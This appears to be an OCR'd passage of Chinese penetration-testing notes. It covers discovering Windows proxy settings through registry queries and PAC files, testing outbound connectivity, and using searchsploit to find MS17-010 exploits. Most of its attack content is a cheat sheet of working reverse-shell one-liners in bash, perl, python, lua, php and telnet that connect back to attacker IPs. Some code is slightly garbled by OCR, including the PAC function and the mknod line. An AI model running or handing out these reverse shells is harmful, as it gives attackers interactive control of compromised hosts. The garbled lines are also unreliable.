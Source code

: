 	reg query "HKEY_USERS\[SID]\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer
	reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings"

通过pac文件自动代理情况

	reg query "HKEY_USERS\[SID]\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v AutoConfigURL

我们可以通过pac文件的路径（可能是本地路径或远程路径）将pac文件下载回来查看，例如某pac文件如下：从中我们能看到其带来服务器为172.16.10.168:8080
```
    function islocalip(ip) {
           return isInNet(ip, "127.0.0.0", "255.0.0.0") ||
                     isInNet(ip, "169.254.0.0", "255.255.0.0") ||
                     isInNet(ip, "10.0.0.0", "255.0.0.0") ||
                     isInNet(ip, "192.168.0.0", "255.255.0.0") ||
                     }
    function FindProxyForURL(url, host) {
           var DefaultScanner = "PROXY 172.16.10.168:8080; DIRECT";
           var target_ip = dnsResolve(host);
           if (islocalip(target_ip)) {
                         return 'DIRECT';
           } else {
                  return DefaultScanner;
           }
    }
```

最终我们可以利用curl进行确定：

	curl        www.baidu.com      //不通 
	curl –x     proxy-ip:8080 www.baidu.com   //通
	icmp        ping baidu.com 
	http        curl -i  baidu.com 
	tcp         telnet baidu.com 
	dns         nslookup baidu.com    //当然这里不一定非要百度

其他反弹

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
    python -c 'import pty; pty.spawn("/bin/bash")'
    
顺便提下

    searchsploit ms17  |grep py  只匹配py脚本
    searchsploit -p 41891.rb 复制完整路径并显示详细信息
    searchsploit -m 41891.rb 复制到当前目录
    searchsploit -w ms17-010  显示exploit-db在线结果

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
 
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
 
lua -e "require('socket');require('os');t=socket.tcp();t:connect('202.103.243.122','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
 
mknod backpipe p && telnet 173.214.173.151 8080 0backpipe
 
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
